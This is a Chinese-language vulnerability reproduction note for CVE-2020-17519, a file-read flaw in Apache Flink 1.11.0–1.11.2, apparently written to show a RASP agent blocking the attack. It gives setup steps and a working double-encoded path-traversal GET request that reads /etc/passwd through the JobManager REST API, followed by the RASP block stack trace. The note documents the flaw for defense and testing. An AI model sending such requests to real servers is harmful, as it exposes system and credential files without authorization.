

#  CVE-2020-17519

## 漏洞简介

Apache Flink 1.11.0中引入的一个更改(也在1.11.1和1.11.2中发布)允许攻击者通过JobManager进程的REST接口读取JobManager本地文件系统上的任何文件。

## 影响版本

1.11.0、1.11.1、1.11.2

## 漏洞复现

### apache flink 下载

[flink-1.11.0](https://repo.huaweicloud.com/apache/flink/flink-1.11.0/)

### 运行

解压后执行  `./bin/start-cluster.sh`

### 攻击请求
```shell
GET http://localhost:8081/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
```

### 攻击成功



## RASP 防护

## 阻断
阻断详情
```json
java.lang.RuntimeException: file [../../../../../../../../../../../../etc/passwd] init block by rasp.
java.io.File.<init>(File.java:358)
org.apache.flink.runtime.rest.handler.cluster.JobManagerCustomLogHandler.getFile(JobManagerCustomLogHandler.java:58)
org.apache.flink.runtime.rest.handler.cluster.AbstractJobManagerFileHandler.respondToRequest(AbstractJobManagerFileHandler.java:60)
org.apache.flink.runtime.rest.handler.AbstractHandler.respondAsLeader(AbstractHandler.java:172)
org.apache.flink.runtime.rest.handler.LeaderRetrievalHandler.lambda$channelRead0$0(LeaderRetrievalHandler.java:81)
java.util.Optional.ifPresent(Optional.java:159)
org.apache.flink.util.OptionalConsumer.ifPresent(OptionalConsumer.java:46)
org.apache.flink.runtime.rest.handler.LeaderRetrievalHandler.channelRead0(LeaderRetrievalHandler.java:78)
org.apache.flink.runtime.rest.handler.LeaderRetrievalHandler.channelRead0(LeaderRetrievalHandler.java:49)
org.apache.flink.shaded.netty4.io.netty.channel.SimpleChannelInboundHandler.channelRead(SimpleChannelInboundHandler.java:105)
org.apache.flink.shaded.netty4.io.netty.channel.AbstractChannelHandlerContext.invokeChannelRead(AbstractChannelHandlerContext.java:374)
org.apache.flink.shaded.netty4.io.netty.channel.AbstractChannelHandlerContext.invokeChannelRead(AbstractChannelHandlerContext.java:360)
org.apache.flink.shaded.netty4.io.netty.channel.AbstractChannelHandlerContext.fireChannelRead(AbstractChannelHandlerContext.java:352)
org.apache.flink.runtime.rest.handler.router.RouterHandler.routed(RouterHandler.java:110)
org.apache.flink.runtime.rest.handler.router.RouterHandler.channelRead0(RouterHandler.java:89)
org.apache.flink.runtime.rest.handler.router.RouterHandler.channelRead0(RouterHandler.java:54)
org.apache.flink.shaded.netty4.io.netty.channel.SimpleChannelInboundHandler.channelRead(SimpleChannelInboundHandler.java:105)
org.apache.flink.shaded.netty4.io.netty.channel.AbstractChannelHandlerContext.invokeChannelRead(AbstractChannelHandlerContext.java:374)
org.apache.flink.shaded.netty4.io.netty.channel.AbstractChannelHandlerContext.invokeChannelRead(AbstractChannelHandlerContext.java:360)
org.apache.flink.shaded.netty4.io.netty.channel.AbstractChannelHandlerContext.fireChannelRead(AbstractChannelHandlerContext.java:352)
org.apache.flink.shaded.netty4.io.netty.handler.codec.MessageToMessageDecoder.channelRead(MessageToMessageDecoder.java:102)
org.apache.flink.shaded.netty4.io.netty.channel.AbstractChannelHandlerContext.invokeChannelRead(AbstractChannelHandlerContext.java:374)
org.apache.flink.shaded.netty4.io.netty.channel.AbstractChannelHandlerContext.invokeChannelRead(AbstractChannelHandlerContext.java:360)
org.apache.flink.shaded.netty4.io.netty.channel.AbstractChannelHandlerContext.fireChannelRead(AbstractChannelHandlerContext.java:352)
org.apache.flink.runtime.rest.FileUploadHandler.channelRead0(FileUploadHandler.java:174)
org.apache.flink.runtime.rest.FileUploadHandler.channelRead0(FileUploadHandler.java:68)
org.apache.flink.shaded.netty4.io.netty.channel.SimpleChannelInboundHandler.channelRead(SimpleChannelInboundHandler.java:105)
org.apache.flink.shaded.netty4.io.netty.channel.AbstractChannelHandlerContext.invokeChannelRead(AbstractChannelHandlerContext.java:374)
org.apache.flink.shaded.netty4.io.netty.channel.AbstractChannelHandlerContext.invokeChannelRead(AbstractChannelHandlerContext.java:360)
org.apache.flink.shaded.netty4.io.netty.channel.AbstractChannelHandlerContext.fireChannelRead(AbstractChannelHandlerContext.java:352)
org.apache.flink.shaded.netty4.io.netty.channel.CombinedChannelDuplexHandler$DelegatingChannelHandlerContext.fireChannelRead(CombinedChannelDuplexHandler.java:438)
org.apache.flink.shaded.netty4.io.netty.handler.codec.ByteToMessageDecoder.fireChannelRead(ByteToMessageDecoder.java:328)
org.apache.flink.shaded.netty4.io.netty.handler.codec.ByteToMessageDecoder.channelRead(ByteToMessageDecoder.java:302)
org.apache.flink.shaded.netty4.io.netty.channel.CombinedChannelDuplexHandler.channelRead(CombinedChannelDuplexHandler.java:253)
org.apache.flink.shaded.netty4.io.netty.channel.AbstractChannelHandlerContext.invokeChannelRead(AbstractChannelHandlerContext.java:374)
org.apache.flink.shaded.netty4.io.netty.channel.AbstractChannelHandlerContext.invokeChannelRead(AbstractChannelHandlerContext.java:360)
org.apache.flink.shaded.netty4.io.netty.channel.AbstractChannelHandlerContext.fireChannelRead(AbstractChannelHandlerContext.java:352)
org.apache.flink.shaded.netty4.io.netty.channel.DefaultChannelPipeline$HeadContext.channelRead(DefaultChannelPipeline.java:1421)
org.apache.flink.shaded.netty4.io.netty.channel.AbstractChannelHandlerContext.invokeChannelRead(AbstractChannelHandlerContext.java:374)
org.apache.flink.shaded.netty4.io.netty.channel.AbstractChannelHandlerContext.invokeChannelRead(AbstractChannelHandlerContext.java:360)
org.apache.flink.shaded.netty4.io.netty.channel.DefaultChannelPipeline.fireChannelRead(DefaultChannelPipeline.java:930)
org.apache.flink.shaded.netty4.io.netty.channel.nio.AbstractNioByteChannel$NioByteUnsafe.read(AbstractNioByteChannel.java:163)
org.apache.flink.shaded.netty4.io.netty.channel.nio.NioEventLoop.processSelectedKey(NioEventLoop.java:697)
org.apache.flink.shaded.netty4.io.netty.channel.nio.NioEventLoop.processSelectedKeysOptimized(NioEventLoop.java:632)
org.apache.flink.shaded.netty4.io.netty.channel.nio.NioEventLoop.processSelectedKeys(NioEventLoop.java:549)
org.apache.flink.shaded.netty4.io.netty.channel.nio.NioEventLoop.run(NioEventLoop.java:511)
org.apache.flink.shaded.netty4.io.netty.util.concurrent.SingleThreadEventExecutor$5.run(SingleThreadEventExecutor.java:918)
org.apache.flink.shaded.netty4.io.netty.util.internal.ThreadExecutorMap$2.run(ThreadExecutorMap.java:74)
java.lang.Thread.run(Thread.java:748)
```
